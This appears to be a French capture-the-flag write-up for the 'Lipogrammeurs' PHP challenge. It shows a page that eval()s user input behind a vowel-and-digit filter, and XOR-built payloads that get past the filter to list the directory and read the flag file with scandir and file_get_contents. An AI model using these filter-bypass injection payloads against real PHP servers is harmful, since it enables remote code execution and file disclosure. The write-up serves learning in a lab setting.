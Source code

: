 # Lipogrammeurs - 200

## Description

`Vous avez trouvé cette page qui vous semble étrange. Pouvez-vous nous convaincre qu'il y a effectivement un problème en retrouvant le flag présent sur le serveur ?`

## Solution

La page principale contient un script php :

```php
if (isset($_GET['code'])) {
    $code = substr($code, 0, 250);
    if (preg_match('/a|e|i|o|u|y|[0-9]/i', $code)) {
        print($code);
        die('No way! PREG');
    } else {
        try {
            print($code);
            eval($code);
        } catch (ParseError $e) {
            die('No way! Go PARSE!');
        }
}
```

On veut donc faire évaluer le contenu de notre variable _code_, ainsi on pourra chercher le flag sur le serveur.

Pour cela nous devons réussir à passer la condition :

```php
preg_match('/a|e|i|o|u|y|[0-9]/i', $code)
```

Notre variable _code_ ne doit donc pas contenir de voyelles ni de chiffres, ce qui n'est pas très pratique si l'on veut dénicher le flag. Il faut donc trouver un moyen de passer outre.

Pour cela on va utiliser des particularités du langage php à notre avantage :

-   XORer deux caractères pour en obtenir un troisième.
-   Passer une variable sans l'avoir définie au préalable, car php estimera alors qu'il s'agit implicitement d'un string.

Préparons notre payload à l'aide de XORs :

```php
php > print_r(scandir("."));
Array
(
    [0] => .
    [1] => ..
    [2] => .git
)
php > $a = 'pr'.("!"^"H").'nt_r(sc'.("?"^"^").'nd'.("!"^"H").'r("."));';
php > eval($b);
Array
(
    [0] => .
    [1] => ..
    [2] => .git
)
```

Mais on ne passe finalement pas le test :

```php
php > print_r(preg_match('/a|e|i|o|u|y|[0-9]/i', $a));
1
php > echo $a;
print_r(scandir("."));
```

En effet, en utilisant XOR on peut retrouver les caractères qui nous sont interdits, mais pour passer la condition, il ne faut pas que les XORs soient interprétés avant la fonction `preg_match`.

Il faut donc contourner ce problème (d'où l'intérêt de la seconde particularité énoncée ci-avant) :

```php
php > $b = "(pr.('!'^'H').nt_r)((sc.('?'^'^').nd.('!'^'H').r)('.'));";
php > echo $b;
(pr.('!'^'H').nt_r)((sc.('?'^'^').nd.('!'^'H').r)('.'));
php > print_r(preg_match('/a|e|i|o|u|y|[0-9]/i', $b));
0
```

On arrive bien a contourner le test, mais qu'en est-il de la fonction `eval` ?

```php
php > eval($b);
#PHP Warning:  Use of undefined constant pr - assumed 'pr' (this will throw an Error in a future version of PHP) in php shell code(1) : eval()'d code on line 1
#PHP Warning:  Use of undefined constant nt_r - assumed 'nt_r' (this will throw an Error in a future version of PHP) in php shell code(1) : eval()'d code on line 1
#PHP Warning:  Use of undefined constant sc - assumed 'sc' (this will throw an Error in a future version of PHP) in php shell code(1) : eval()'d code on line 1
#PHP Warning:  Use of undefined constant nd - assumed 'nd' (this will throw an Error in a future version of PHP) in php shell code(1) : eval()'d code on line 1
#PHP Warning:  Use of undefined constant r - assumed 'r' (this will throw an Error in a future version of PHP) in php shell code(1) : eval()'d code on line 1
Array
(
    [0] => .
    [1] => ..
    [2] => .git
```

Impeccable ! En effet, à l'évaluation php estime que nos constantes non définies sont des strings, il s'occupe alors d'y concatener les XORs (cette fois évalués), ce que nous permet d'injecter notre payload.

On vérifie :

![lipo](../Images/lipogrammeurs_1.PNG)

Nous avons fait le plus dur, reste désormais à récupérer le flag à l'aide de la payload suivante :

```php
(pr.('!'^'H').nt_r)((f.('!'^'H').l.('^'^';')._g.('^'^';').t_c.('!'^'N').nt.('^'^';').nts)((sc.('?'^'^').nd.('!'^'H').r)('.')[('B'^'p')]));
# print_r(file_get_contents(scandir('.')[2]))
```

Aurions-nous eu tout faux ?

![lipo](../Images/lipogrammeurs_2.PNG)

On se rappelle que le flag était un fichier php, une inspection des sources aura tôt fait de nous rassurer :

![lipo](../Images/lipogrammeurs_3.PNG)
